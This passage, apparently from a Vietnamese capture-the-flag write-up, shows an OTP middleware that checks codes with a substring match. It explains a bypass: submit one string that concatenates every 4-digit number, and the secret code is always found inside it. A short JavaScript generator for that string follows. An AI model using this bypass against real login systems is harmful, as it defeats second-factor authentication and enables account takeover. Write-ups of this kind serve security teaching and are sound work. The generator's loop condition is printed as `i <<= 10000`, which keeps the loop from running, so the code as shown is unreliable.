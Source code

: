 
Ok thì mình đọc lại file otpMiddleware.js thì thấy hàm check OTP như sau. Ở đây OTP có dạng là số có 4 chữ số nhưng lại check bằng hàm include có nghĩa là mình có thể gen ra tất cả các số có 4 chữ số sau đó web sẽ check valid OTP có trong chuỗi đó không. Thì chắc chắn là có rồi

```js
import { hgetField } from '../utils/redisUtils.js';

export const otpMiddleware = () => {
  return async (req, reply) => {
    const userId = req.user.email;
    const { otp } = req.body;

    const redisKey = `otp:${userId}`;
    const validOtp = await hgetField(redisKey, 'otp');

    if (!otp) {
      reply.status(401).send({ error: 'OTP is missing.' });
      return
    }

    if (!validOtp) {
      reply.status(401).send({ error: 'OTP expired or invalid.' });
      return;
    }

    // TODO: Is this secure enough?
    if (!otp.includes(validOtp)) {
      reply.status(401).send({ error: 'Invalid OTP.' });
      return;
    }
  };
};
```

Mình sẽ sử dụng đoạn script sau để gen ra 
    
```js
s = ""
for (let i=0; i <<= 10000; i++){
    s += String(i).padStart(4, '0');
}
console.log(s)
```

![image](./images/image31.png)
